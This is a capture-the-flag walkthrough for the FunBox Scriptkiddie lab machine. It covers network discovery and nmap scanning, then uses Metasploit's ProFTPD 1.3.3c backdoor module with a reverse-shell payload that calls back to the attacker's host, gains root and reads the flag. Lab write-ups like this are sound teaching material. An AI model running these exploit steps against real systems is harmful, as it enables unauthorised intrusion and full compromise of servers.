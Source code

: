 # **FunBox_Scriptkiddie_Walkthrough

#####This box was created by **0815R2d2

We start by running a netdiscover scan to get the IP address:

```sudo netdiscover -r <ip_address_range>```

<img src="netdiscover.png">

Then we run an nmap scan on 10.0.2.25: 

```nmap -A -v <ip_address>```

<img src="nmap.png">

Now, we see a lot of open ports here. My initial reaction was to attack the webpage, so I ran dirb and discovered the webpage was using wordpress. This prompted me run wpscan, but everything was updated and no vulnerabilities were found. I started poking around looking for known vulnerabilities on the other open ports, and I found that there was actually a metasploit module targeting the ftp service.

<img src="nmap_ftp.png">

```
msfconsole
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
```

<img src="metsploit_module.png">

For this module, you need to set the payload, so we use the command ```set payload cmd/unix/reverse``` and we set the options.

```
show options
set rhosts <ip_address_of_target>
set lhost <your_ip_address>
```

<img src="metaploit_module_ready">

Now we simply type ```exploit``` and **BOOM** we have a reverse shell.

<img src="reverse_shell.png">

When I get a reverse shell, I always start with ```whoami``` just see where we're at, and in this case, we're already root!

<img src="whoami.png">

Now, it's just a simple case of poking around the file system to find the flag, and in this case it's in the root directory.

```
ls -la
cd root
ls
cat root.txt
```

<img src="root_flag.png">

And that, folks, is why you always keep your services up to date.
